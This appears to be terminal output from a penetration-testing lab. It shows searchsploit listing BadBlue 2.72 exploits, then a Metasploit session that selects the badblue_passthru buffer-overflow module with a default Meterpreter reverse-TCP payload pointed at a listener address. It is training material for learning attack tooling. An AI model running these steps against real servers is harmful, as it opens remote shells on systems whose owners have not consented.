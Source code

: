 ```
root@attackdefense:~# searchsploit BadBlue 2.7
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
BadBlue 2.72 - PassThru Remote Buffer Overflow                                                                                                              | windows/remote/4784.pl
BadBlue 2.72b - Multiple Vulnerabilities                                                                                                                    | windows/remote/4715.txt
BadBlue 2.72b - PassThru Buffer Overflow (Metasploit)                                                                                                       | windows/remote/16806.rb
Working Resources BadBlue 1.2.7 - Denial of Service                                                                                                         | windows/dos/20641.txt
Working Resources BadBlue 1.2.7 - Full Path Disclosure                                                                                                      | windows/remote/20640.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```
root@attackdefense:~# msfconsole -q
msf6 > search BadBlue

Matching Modules
================

   #  Name                                       Disclosure Date  Rank   Check  Description
   -  ----                                       ---------------  ----   -----  -----------
   0  exploit/windows/http/badblue_ext_overflow  2003-04-20       great  Yes    BadBlue 2.5 EXT.dll Buffer Overflow
   1  exploit/windows/http/badblue_passthru      2007-12-10       great  No     BadBlue 2.72b PassThru Buffer Overflow


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/http/badblue_passthru

msf6 > use 1
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/badblue_passthru) > show options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```